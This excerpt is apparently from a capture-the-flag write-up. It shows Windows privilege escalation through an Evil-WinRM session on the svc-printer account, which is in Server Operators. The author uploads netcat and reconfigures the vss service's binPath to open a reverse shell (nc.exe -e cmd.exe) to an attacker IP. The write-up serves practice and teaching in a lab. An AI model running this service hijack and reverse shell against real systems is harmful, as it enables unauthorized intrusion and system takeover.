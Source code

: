 # for root

```

*Evil-WinRM* PS C:\Users\svc-printer\Documents> net user svc-printer
User name                    svc-printer
Full Name                    SVCPrinter
Comment                      Service Account for Printer
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/26/2021 1:15:13 AM
Password expires             Never
Password changeable          5/27/2021 1:15:13 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   5/26/2021 1:39:29 AM

Logon hours allowed          All

Local Group Memberships      *Print Operators      *Remote Management Use
                             *Server Operators
Global Group memberships     *Domain Users
The command completed successfully.

```

uploading netcat using winrm

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> upload /usr/share/windows-resources/binaries/nc.exe
Info: Uploading /usr/share/windows-resources/binaries/nc.exe to C:\Users\svc-printer\Documents\nc.exe

                                                             
Data: 79188 bytes of 79188 bytes copied

Info: Upload successful!

```

configuring sc.exe

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe config vss binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.14.17 1234"
[SC] ChangeServiceConfig SUCCESS

```
